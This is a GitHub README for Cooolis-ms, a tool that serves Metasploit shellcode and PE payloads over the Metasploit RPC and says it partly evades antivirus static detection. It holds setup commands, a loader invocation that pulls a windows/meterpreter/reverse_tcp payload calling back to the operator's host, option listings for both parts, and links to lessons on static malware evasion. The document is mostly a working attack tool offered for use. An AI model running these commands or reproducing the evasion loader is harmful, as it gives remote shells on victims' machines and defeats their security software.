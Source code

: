 # Cooolis-ms

Cooolis-ms 是一个支持Metasploit Framework RPC的一个服务端，用于给Shellcode和PE加载器工作，在一定程度上绕过反病毒软件的静态查杀，同时可以让Cooolis-ms服务端与Metasploit服务器进行分离。


Cooolis-ms is a server that supports the Metasploit Framework RPC. It is used to work with the Shellcode and PE loader. To some extent, it bypasses the static killing of anti-virus software, and allows the Cooolis-ms server to communicate with the Metasploit server. Separation.

## 你可以参考这里，写出自己的好项目

- [静态恶意代码逃逸（第一课）](https://payloads.online/archivers/2019-11-10/1)
- [静态恶意代码逃逸（第二课）](https://payloads.online/archivers/2019-11-10/2)
- [静态恶意代码逃逸（第三课）](https://payloads.online/archivers/2019-11-10/3)
- [静态恶意代码逃逸（第四课）](https://payloads.online/archivers/2019-11-10/4)
- [静态恶意代码逃逸（第五课）](https://payloads.online/archivers/2019-11-10/5)

[![Cooolis](http://img.youtube.com/vi/xMYZbvn53aY/0.jpg)](https://www.youtube.com/embed/xMYZbvn53aY "Cooolis")

## How to install | 如何安装

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## How to use |  如何使用

你需要先启动Metasploit RPC服务端：

You need to start the Metasploit RPC server first:

IP : 172.16.143.1

```
$ msfrpcd -U msf -P msf -u /api/1.0/
```

接着需要启动Cooolis-ms，使得它连接到RPC，并且监听一个端口，用来发送载荷：

Then you need to start Cooolis-ms so that it connects to the RPC and listens on a port to send the payload:

IP : 172.16.143.1

```
$ python3 server.py -U msf -P msf -H 127.0.0.1 -p 55553 -s -v -l 8899 -S 172.16.143.1
```

IP : 172.16.143.2

```
Windows > ConsoleApplication5.exe -p windows/meterpreter/reverse_tcp -s LHOST=172.16.143.1,LPORT=8876,Format=dll -H 172.16.143.1 -P 8899 -c password
```

## Cooolis-ms server

```
usage: Cooolis-ms [-h] -U USERNAME -P PASSWORD [-H HOST] [-p PORT] [-S SERVER]
                  [-l LISTEN] [-u URI] [-t {exe,ruby,c,dll,vbs,powershell}]
                  [-s] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -U USERNAME, --username USERNAME
                        Metasploit web service username
  -P PASSWORD, --password PASSWORD
                        Metasploit web service password
  -H HOST, --host HOST  Metasploit web service host, Default: localhost
  -p PORT, --port PORT  Metasploit RPC service port, Default: 55553
  -S SERVER, --server SERVER
                        Payload sender listen host, Default: localhost
  -l LISTEN, --listen LISTEN
                        Payload listen port, Default: 1111
  -u URI, --uri URI     Metasploit RPC service uri, Default: /api/1.0/
  -t {exe,ruby,c,dll,vbs,powershell}, --type {exe,ruby,c,dll,vbs,powershell}
                        Payload Type
  -s, --ssl             Enable ssl, Default: True
  -v, --versobe         Enable debug
```

## Cooolis-ms Loader


![](./pic/demo.png)

```
[*]Usage : Cooolis-ms.exe -p [PAYLOAD] -s [PAYLOAD OPTIONS] -c [RC4 PASSWORD] -H [Stager Host] -P [Stager Port]
         -p [PAYLOAD]    MSF PAYLOAD TYPE
         -s [PAYLOAD OPTIONS]    MSF PAYLOAD OPTIONS
         -c [RC4 PASSWORD]       Startup RC4 Trans Stager
         -H [Stager Host]        Cooolis-Server Host
         -P [Stager Port]        Cooolis-Server Port
         -D [Default]
[*]Example : Cooolis-ms.exe -p windows/meterpreter/reverse_tcp -s LHOST=192.168.1.1,LPORT=1122 -H 192.168.2.1 -P 4444
```

## About other | 关于其他

~~后续我将会写出Windows平台下的通用加载器客户端集合到这个项目中。~~


~~Subsequent I will write a collection of generic loader clients for the Windows platform into this project.~~

如果你觉得这个项目不错，那就给一个Star～

If you think this project is good, give a Star.

## issue

[I have a question](https://github.com/Rvn0xsy/Cooolis-ms/issues)

## LICENSE

[GNU General Public License v3.0](https://github.com/Rvn0xsy/Cooolis-ms/blob/master/LICENSE)
